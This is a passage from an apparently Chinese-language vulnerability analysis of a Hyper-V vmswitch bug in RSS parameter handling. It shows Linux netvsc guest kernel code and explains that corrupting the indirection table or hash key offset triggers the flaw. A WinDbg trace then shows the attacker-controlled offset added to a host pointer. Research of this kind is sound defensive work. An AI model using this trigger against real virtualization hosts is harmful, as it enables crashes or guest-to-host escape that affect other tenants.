 ```
  t = wait_for_completion_timeout(&request->wait_event, 5*HZ);
  if (t == 0) {
    netdev_err(ndev, "timeout before we got a set response...\n");
    /* can't put_rndis_request, since we may still receive a
    * send-completion.
    */
    return -ETIMEDOUT;
  } else {
  set_complete = &request->response_msg.msg.set_complete;
    if (set_complete->status != RNDIS_STATUS_SUCCESS) {
        netdev_err(ndev, "Fail to set RSS parameters:0x%x\n",
                   set_complete->status);
        ret = -EINVAL;
    }
  }
cleanup:
  put_rndis_request(rdev, request);
  return ret;
}

```

         PoC 代码非常简单，只需修改 rssp->indirect_taboffset 或者 rssp->kashkey_offset 的值即可，然后重新编译内核，重启虚拟机，便可复现漏洞。

6.3. 调试

         WinDbg 在 vmswitch! VmsVmNicHandleRssParametersChange 函数偏移 0x11C 处设置断点，启动虚拟机，等待断点被访问。

```
3: kd> bp vmswitch! VmsVmNicHandleRssParametersChange+11c
3: kd> g
Breakpoint 0 hit
vmswitch!VmsVmNicHandleRssParametersChange+0x11c:
fffff800`4a4d8f90 8b5510          mov     edx,dword ptr [rbp+10h]
0: kd> p
vmswitch!VmsVmNicHandleRssParametersChange+0x11f:
fffff800`4a4d8f93 450fb7ef        movzx   r13d,r15w
0: kd> r edx
edx=80808080
0: kd> p
vmswitch!VmsVmNicHandleRssParametersChange+0x123:
fffff800`4a4d8f97 4c8da694020000  lea     r12,[rsi+294h]
0: kd> p
vmswitch!VmsVmNicHandleRssParametersChange+0x12a:
fffff800`4a4d8f9e 458bc5          mov     r8d,r13d
0: kd> p
vmswitch!VmsVmNicHandleRssParametersChange+0x12d:
fffff800`4a4d8fa1 4803d5          add     rdx,rbp
0: kd> r rbp
rbp=ffffe00102c48220
0: kd> db rbp
DBGHELP: SharedUserData - virtual symbol module
ffffe001`02c48220  89 02 28 00 00 00 00 00-01 17 00 00 00 02 00 00  ..(.............
ffffe001`02c48230  80 80 80 80 2a 00 00 00-80 82 80 80 00 00 00 00  ....*...........
ffffe001`02c48240  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffe001`02c48250  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffe001`02c48260  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffe001`02c48270  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffe001`02c48280  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffe001`02c48290  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
0: kd> p
vmswitch!VmsVmNicHandleRssParametersChange+0x130:
fffff800`4a4d8fa4 498bcc          mov     rcx,r12
0: kd> r rdx
rdx=ffffe001834502a0
```